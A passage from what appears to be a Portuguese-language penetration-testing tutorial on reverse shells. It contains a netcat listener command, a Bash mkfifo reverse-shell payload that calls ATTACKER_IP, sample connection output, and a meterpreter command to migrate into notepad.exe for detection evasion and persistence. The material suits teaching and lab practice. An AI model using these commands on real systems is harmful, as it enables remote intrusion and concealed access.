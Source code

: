 `nc -lvnp 443`

- `-l`: Modo “listen” (ouvir conexões).
    
- `-v`: Modo verboso.
    
- `-n`: Não resolver nomes (mais rápido).
    
- `-p 443`: Define a porta para escuta.
    

### 2. Payload (Máquina Vítima)

No alvo, executamos o **payload** que iniciará a conexão reversa para o IP do atacante e porta configurada. Exemplos de payload em **Bash**:

`rm -f /tmp/f mkfifo /tmp/f cat /tmp/f | sh -i 2>&1 | nc ATTACKER_IP ATTACKER_PORT >/tmp/f`

> Substitua `ATTACKER_IP` e `ATTACKER_PORT` pelos valores adequados, por exemplo `10.10.13.37` e `443`.

### 3. Conexão recebida (Atacante)

Se tudo ocorrer bem, você verá algo como:

`connect to [10.4.99.209] from (UNKNOWN) [10.10.13.37] 59964`

E terá um shell interativo na máquina alvo.

---

## Metasploit e a Migração para Notepad.exe: A Arte do Disfarce

Em cenários onde a persistência e a invisibilidade são cruciais, o **Metasploit** se destaca com sua capacidade de realizar operações avançadas — uma delas é a **migração de processos**. Inspirados na imagem que brinca com a ideia do `notepad.exe` assumindo uma nova função, podemos usar essa técnica para “disfarçar” um payload.

### Por que Migrar processo?

Migrar um payload para um processo legítimo, como o `notepad.exe`, pode ajudar na:

- **Evasão de Detecção:** O `notepad.exe` é um aplicativo legítimo, o que pode dificultar a identificação de atividades maliciosas.
    
- **Persistência:** Ao integrar o payload a um processo conhecido, o atacante pode manter acesso contínuo ao sistema.
    

### Como Executar a Migração

Após obter acesso com uma sessão do Metasploit, o comando para migrar para o `notepad.exe` é simples:

`meterpreter > migrate <PID_do_notepad.exe>`

> **Nota:** O `<PID_do_notepad.exe>` representa o identificador do processo do notepad.exe no sistema alvo.
